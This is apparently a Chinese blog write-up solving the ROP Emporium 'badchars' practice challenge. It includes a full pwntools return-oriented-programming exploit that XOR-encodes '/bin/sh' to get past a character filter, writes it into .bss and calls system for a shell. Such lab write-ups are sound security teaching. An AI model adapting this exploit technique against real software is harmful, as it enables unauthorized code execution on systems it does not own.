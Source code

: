 ```yaml
---
title: ROP Emporium の badchars
date: 2020-06-05 11:32:06
categories: 
- WriteUPs
- ROP Emporium
tags: 
- PWN
- ROP
- Stack
---
```

## Introduction

&emsp;&emsp;[ROP Emporium](https://ropemporium.com)训练4：badchars的解析。

<!-- more -->

## badchars32

### Step 1

&emsp;&emsp;程序正常运行截图：

![](/img/badchars/badchars1.png)

&emsp;&emsp;可以看到运行时提示badchars，结合题目说明，可能这些字符串会被程序特殊处理。

&emsp;&emsp;checksec：32位程序，依然只开启了DEP保护

![](/img/badchars/badchars2.png)

### Step 2

&emsp;&emsp;将程序丢到IDA Pro中去（至于为什么没用hopper，只能说这题需要理解下程序，而hopper的伪代码不够C……），先看下main函数：

![](/img/badchars/badchars3.png)

&emsp;&emsp;main函数聚焦在pwnme函数:

![](/img/badchars/badchars4.png)

&emsp;&emsp;首先发现memcpy函数存在栈溢出漏洞，其次出现了两个函数nstrlen和checkBadchars：

![](/img/badchars/badchars5.png)

&emsp;&emsp;nstrlen函数是当遇到0xa（ASII码10即’\n’）时就截断。

![](/img/badchars/badchars6.png)

&emsp;&emsp;checkBadchars函数是遇到\x62（ASII码98即’b’）、\x69（ASII码105即’i’）、\x63（ASII码99即’c'）、\x2f（ASII码47即’/'）、\x20（ASII码32即’<space>'）、\x66（ASII码102即’f'）、\x6e（ASII码110即’n'）、\x73（ASII码115即’s’）时将其替换成’-21’。

&emsp;&emsp;还发现程序中是存在system函数的，但是没有’/bin/sh’字符串。所以我们需要将需要的字符串写入内存，这样就会遇到’/’、’b’、’s’被过滤的情况。

&emsp;&emsp;为了解决这个情况，根据题目的提示，需要通过XOR（异或）对输入的字符串加密后输入然后再解密。

### Step 3

&emsp;&emsp;顺着这个思路首先解决第一个问题，字符串写到哪里。看一下各个段的权限，下面的段是有写权限的：

![](/img/badchars/badchars7.png)

&emsp;&emsp;.bss段是空的所以可以把字符串写在.bss段。

&emsp;&emsp;然后是第二个问题怎么实现异或，通过ROPgadget找一下：

![](/img/badchars/badchars8.png)

&emsp;&emsp;果然在0x08048890这里存在这样一条XOR指令可以利用。通过这条指令我们可以将XOR后的’/bin/sh’字符串传入，通过这条指令解密后再作为system函数的参数。

&emsp;&emsp;接着是XOR值的选择，我们可以写个简单的脚本找一下：

```Python
badchars = '\x62\x69\x63\x2f\x20\x66\x6e\x73'

sh_string = '/bin/sh\x00'

def xor(sh_str):
    i = 0
    for j in range(len(sh_str)):
        tmp = chr(ord(sh_str[j]) ^ i)
        if tmp in badchars:
            i = i + 1
    print i

xor(sh_string)
```

&emsp;&emsp;运行结果为2，即当’/bin/sh\x00’和2异或的时候不会出现被过滤的字符。

&emsp;&emsp;当然还需要找一个指令段帮助控制ebx和cl寄存器（32位的ecx寄存器分为两个16位的cx寄存器，cx寄存器再分成8位的ch和cl寄存器）的值，也通过ROPgadget找一下：

![](/img/badchars/badchars9.png)

&emsp;&emsp;最后就是找两个指令段，分别辅助写入和控制寄存器：

![](/img/badchars/badchars10.png)

&emsp;&emsp;图中标记的一对指令刚好满足条件。

### Step 4

&emsp;&emsp;思路顺利之后就是写EXP了：

```Python
* from pwn import *
* 
* sh = process('./badchars32')
* elf = ELF('./badchars32')
* 
* sys_addr = elf.symbols['system']
* bss_addr = 0x0804a040
* 
* xor_addr = 0x08048890
* #pop_ebx_addr = 0x08048461
* #pop_ecx_addr = 0x08048897
* pop_ebx_ecx_addr = 0x08048896
* 
* mov_addr = 0x08048893
* pop_addr = 0x08048899
* 
* shell = '/bin/sh\x00'
* xor_shell = ''
* for i in shell:
* xor_shell += chr(ord(i) ^ 2)
* 
* payload = 'a' * (0x28 + 0x4)
* payload += p32(pop_addr) + xor_shell[0:4] + p32(bss_addr) + p32(mov_addr)
* payload += p32(pop_addr) + xor_shell[4:8] + p32(bss_addr + 4) + p32(mov_addr)
* 
* for j in range(len(xor_shell)):
* #payload += p32(pop_ebx_addr)
* #payload += p32(bss_addr + j)
* #payload += p32(pop_ecx_addr)
* payload += p32(pop_ebx_ecx_addr)
* payload += p32(bss_addr + j)
* payload += p32(2)
* payload += p32(xor_addr)
* 
* payload += p32(sys_addr) + p32(0xdeadbeef) + p32(bss_addr)
* 
* sh.recvuntil('>')
* sh.sendline(payload)
* 
* sh.interactive()
* sh.close()
```

&emsp;&emsp;注释掉的部分是在传入的XOR加密shellcode解密时候，将xor指令的传参分成两步进行，可是却无法正确getshell，希望有大佬可以解惑。

&emsp;&emsp;EXP运行结果：

![](/img/badchars/badchars11.png)

## badchars

&emsp;&emsp;64位程序和32位思路一样，传参的时候甚至更加简单，因为可以一次性将需要的字符串写入内存。

## Tips

&emsp;&emsp;写入的字符串可以是’sh\x00\x00’，这样32位程序也可以实现一次性传参，前提是sh系统变量就是默认的’/bin/sh’命令。